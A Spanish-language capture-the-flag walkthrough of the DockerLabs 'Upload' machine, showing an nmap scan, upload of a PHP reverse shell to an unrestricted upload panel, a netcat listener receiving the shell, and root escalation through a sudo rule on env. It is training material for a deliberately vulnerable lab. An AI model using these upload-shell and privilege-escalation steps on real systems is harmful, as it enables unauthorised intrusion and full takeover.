


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `PHP` `File Upload` `RCE` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip upload.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh upload.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-13 20:42 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds
```

El único puerto abierto es el `80`. Accedemos por `HTTP` y vemos que existe un panel que permite subir archivos.



Dichos archivos se almacenan en el directorio `/uploads` y podemos ejecutarlos desde allí.

Probamos a subir un script en `.php` para obtener una `reverse shell`. En este caso utilizamos la `php-reverse-shell` de `Pentestmonkey` en GitHub.

Lo copiamos en nuestra máquina `Kali`, configuramos nuestra `IP` y el `puerto` de escucha, y lo guardamos como `shell.php`.

Intentamos subirlo a través del panel de subida y la operación resulta exitosa.



Navegamos al directorio `/uploads` para ejecutar el archivo. Antes de ello, levantamos un listener en nuestra máquina atacante.

```bash
sudo nc -nlvp 4444
```

Ahora sí, al ejecutar el archivo `php` obtenemos una `reverse shell` como el usuario `www-data`.

Info:

```
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 41646
Linux fe86a383d491 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 20:51:08 up  5:19,  0 users,  load average: 0.16, 0.40, 0.73
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for www-data on fe86a383d491:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on fe86a383d491:
    (root) NOPASSWD: /usr/bin/env
```

Comprobamos permisos y observamos que podemos ejecutar el binario `env` con privilegios de `root`, lo que nos permite escalar privilegios de la siguiente manera:

```bash
sudo env /bin/sh
```

Info:

```
# whoami
root
#
```

Ya somos root!
